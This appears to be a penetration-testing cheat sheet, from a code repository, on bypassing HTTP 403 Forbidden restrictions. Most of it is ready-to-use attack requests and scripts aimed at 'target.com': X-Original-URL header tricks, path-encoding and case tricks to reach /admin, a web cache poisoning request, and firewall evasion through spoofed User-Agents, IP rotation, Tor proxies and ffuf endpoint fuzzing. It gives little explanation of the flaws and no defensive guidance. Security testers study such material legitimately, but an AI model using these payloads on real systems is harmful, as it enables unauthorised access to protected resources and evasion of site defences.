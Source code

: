 # Bypass 403 (Forbidden)
### Using `X-Original-URL` header
```bash
# Normal Request (403)
GET /admin HTTP/1.1
Host: target.com

# Try this to bypass (200)
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```

### Appending `%2e` after the first slash
```bash
# Normal Request (403)
http://target.com/admin

# Try this to bypass (200)
http://target.com/%2e/admin
```
### Try add dot `.` slash `/` and semicolon `;` in the URL
```bash
# Normal Request (403)
http://target.com/admin

# Try this to bypass (200)
http://target.com/secret/.
http://target.com//secret//
http://target.com/./secret/..
http://target.com/;/secret
http://target.com/.;/secret
http://target.com//;//secret
```
### Add `..;/` after the directory name
```bash
# Normal Request (403)
http://target.com/admin

# Try this to bypass (200)
http://target.com/admin..;/
```
### Try to uppercase the alphabet in the url
```bash
# Normal Request (403)
http://target.com/admin

# Try this to bypass (200)
http://target.com/aDmIN
```

## Via Web Cache Poisoning
```bash
GET /anything HTTP/1.1
Host: victim.com
X­-Original-­URL: /admin
```
## Other Tricks
bypassing a 403 Forbidden error, especially when dealing with a firewall like Akamai's Ghost, can be challenging. However, there are several techniques and strategies you can employ to try and circumvent such restrictions. Here are some methods:

**1. User-Agent Spoofing**

Websites often block certain User-Agent strings. You can try spoofing your User-Agent to appear as a different browser or bot.
```python
import requests

url = "http://target.com"
headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3"}

response = requests.get(url, headers=headers)
print(response.status_code)
```

**2. IP Rotation**

Rotating your IP address can help bypass some rate-limiting or geo-blocking measures. You can use proxies or VPNs for this purpose.
```python
proxies = {
    'http': 'http://your_proxy_ip:port',
    'https': 'http://your_proxy_ip:port'
}

response = requests.get(url, proxies=proxies)
print(response.status_code)
```

**3. Referer Header**

Sometimes, adding a Referer header can make it appear as if the request is coming from a legitimate source.
```python
headers = {
    "Referer": "http://target.com",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.3"
}

response = requests.get(url, headers=headers)
print(response.status_code)
```

**4. Cookies**

Sometimes, websites use cookies to track and block requests. You can try to mimic legitimate cookies.
```python
cookies = {
    'cookie_name': 'cookie_value'
}

response = requests.get(url, cookies=cookies)
print(response.status_code)
```

**5. Session Management**

Maintain a session to bypass certain restrictions.
```python
session = requests.Session()
session.get("http://target.com")
response = session.get("http://target.com/protected_page")
print(response.status_code)
```

**6. Bypassing via JavaScript**

Some websites use JavaScript to dynamically load content, which can bypass certain server-side restrictions. You can use tools like Selenium or Puppeteer to automate browser interactions.

Selenium Example:
```python
from selenium import webdriver

driver = webdriver.Chrome()
driver.get("http://target.com")

# Perform actions like clicking buttons or filling forms
driver.find_element_by_xpath("//button[@id='login']").click()

# Extract content
content = driver.page_source
print(content)

driver.quit()
```

Puppeteer Example:
```javascript
const puppeteer = require('puppeteer');

(async () => {
  const browser = await puppeteer.launch();
  const page = await browser.newPage();
  await page.goto('http://target.com');

  // Perform actions like clicking buttons or filling forms
  await page.click('button#login');

  // Extract content
  const content = await page.content();
  console.log(content);

  await browser.close();
})();
```

**7. Using Tor or Other Anonymity Networks**

Using Tor or other anonymity networks can help bypass IP-based restrictions.
```python
import requests

# Define the SOCKS5 proxy
proxies = {
    'http': 'socks5h://127.0.0.1:9050',
    'https': 'socks5h://127.0.0.1:9050'
}

# Define the URL
url = 'http://target.com'

# Send the request through the proxy
try:
    response = requests.get(url, proxies=proxies, timeout=10)
    print("Status Code:", response.status_code)
    print("Response Content:", response.text)
except requests.exceptions.RequestException as e:
    print(f"Error: {e}")
```

**8. Checking for Bypass URLs**

Sometimes, websites have alternative URLs that are not protected by the same firewall rules.

**9. Using Browser Extensions**

Browser extensions like `SwitchyOmega` can help manage different profiles and settings to bypass restrictions.

**10. Fuzzing and Brute Forcing**

Tools like `ffuf` can be used to brute-force and discover hidden endpoints or parameters that might bypass restrictions.
```bash
ffuf -u http://target.com/FUZZ -w /path/to/wordlist.txt 
```




















